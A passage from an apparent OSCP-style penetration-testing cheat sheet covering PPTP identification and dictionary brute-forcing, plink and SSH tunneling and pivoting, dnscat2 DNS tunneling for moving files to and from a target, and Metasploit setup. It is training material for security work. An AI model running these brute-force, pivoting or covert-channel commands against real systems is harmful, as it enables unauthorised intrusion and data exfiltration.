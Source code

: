 - PPTP Hacking
  - Identifying PPTP, it listens on TCP: 1723  
        NMAP PPTP Fingerprint:  
        `nmap –Pn -sV -p 1723 TARGET(S)`
        PPTP Dictionary Attack  
        `thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst`
- Port Forwarding/Redirection
- PuTTY Link tunnel - SSH Tunneling
  - Forward remote port to local address:  
         `plink.exe -P 22 -l root -pw "1337" -R 445:<local host>:445 <remote host>`
- SSH Pivoting
  - SSH pivoting from one network to another:  
        `ssh -D <local host>:1010 -p 22 user@<remote host>`
- DNS Tunneling
  - dnscat2 supports “download” and “upload” commands for getting iles (data and programs) to and from the target machine.
  - Attacking Machine Installation:

      ```shell
      apt-get update  
      apt-get -y install ruby-dev git make g++  
      gem install bundler  
      git clone https://github.com/iagox86/dnscat2.git  
      cd dnscat2/server  
      bundle install
      ```

  - Run dnscat2:

      ```shell
      ruby ./dnscat2.rb  
      dnscat2> New session established: 1422  
      dnscat2> session -i 1422
      ```

  - Target Machine:  
        [*https://downloads.skullsecurity.org/dnscat2/*](https://downloads.skullsecurity.org/dnscat2/)
        [*https://github.com/lukebaggett/dnscat2-powershell/*](https://github.com/lukebaggett/dnscat2-powershell/)
        `dnscat --host <dnscat server ip>`

## The Metasploit Framework

- See [*Metasploit Unleashed
    Course*](https://www.offensive-security.com/metasploit-unleashed/)
    in the Essentials

- Search for exploits using Metasploit GitHub framework source code:  
    [*https://github.com/rapid7/metasploit-framework*](https://github.com/rapid7/metasploit-framework)  
    Translate them for use on OSCP LAB or EXAM.
- Metasploit
  - MetaSploit requires Postfresql  
        `systemctl start postgresql`
  - To enable Postgresql on startup  
        `systemctl enable postgresql`
- MSF Syntax
  - Start metasploit  
        `msfconsole`
